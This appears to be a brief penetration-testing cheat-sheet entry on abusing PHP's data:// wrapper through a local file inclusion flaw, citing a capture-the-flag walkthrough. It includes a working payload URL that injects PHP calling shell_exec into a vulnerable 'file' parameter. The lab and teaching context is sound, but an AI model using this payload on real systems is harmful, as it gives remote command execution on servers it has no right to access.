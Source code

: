 ## PHP Wrapper

### Links

- [Slort PG Walkthrough](https://defaultcredentials.com/ctf/proving-grounds/slort-proving-grounds-walkthrough/)

It can be used to exploit Directory Traversal and LFI. This gives us additional flexibility when attempting to inject PHP code via LFI vulnerabilities. This wrapper provides us with an alternative payload when we cannot poison a local file with PHP code.

```
# We know this is vulnerable to LFI so we use a data wrapper
# Hence, LFI without manipulating the local file. # ADDING SHELL EXEC IN END TO SEE
http://<IP>/menu.php?file=data:text/plain,<?php echo shell_exec("whoami")?>
```

